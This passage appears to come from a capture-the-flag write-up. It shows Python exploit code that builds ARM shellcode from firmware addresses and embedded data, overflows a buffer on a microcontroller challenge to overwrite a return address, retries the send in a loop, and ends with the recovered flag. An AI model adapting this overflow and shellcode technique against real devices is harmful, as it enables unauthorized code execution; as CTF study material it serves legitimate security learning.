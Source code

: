 ```python
            RX: .word 0x08000937
            RX_BUF: .word 0x08000965
            TX: .word 0x080008fb
            TX_BUF: .word 0x0800091d
            PRINT: .word 0x08001039
            TO_HEX: .word 0x080011ad
            DELAY: .word 0x08001055
            WRITE: .word 0x08000ea5

            PRESCALER_REGISTER: .word 0x40023808
            PIN: .asciz "13372020\\n"
            PLAINTEXT: .byte 0x19, 0x6b, 0xc5, 0x15, 0xf3, 0x9b, 0xa5, 0x41, 0xbe, 0xf8, 0xe0, 0xfb, 0x5e, 0x74, 0xc2, 0xcb, 0x2d, 0x00, 0x6e, 0xf5, 0xd1, 0x14, 0x50, 0xfc, 0x86, 0x03, 0x01, 0xa2, 0x65, 0xc8, 0xe6, 0x84

            EASY_FLAG: .word 0x0800040b
            RET_ADDR: .word 0x08000725
    """, vma=SC_ADDR)


import time
initial = b'help a a a a a a a a a \0'
assert len(initial) % 2 == 0
SC_ADDR = BUFFER_ADDR + len(initial)
shellcode = make_shellcode(8) # This was originally in a loop, but 8 was determined to be the reliably working value
assert len(initial) + len(shellcode) < 0x300
print(hex(len(shellcode)))
payload = initial + shellcode + b' ' * (0x304 - len(initial) - len(shellcode)) + pack(SC_ADDR | 1)

while True:
    try:
        io = start()
        io.recvuntil("seconds...")
        io.send(payload)
        io.stream()
        break
    except EOFError:
        time.sleep(15)
```

Flag: `CTF{t1s bUt a scr4tch}`

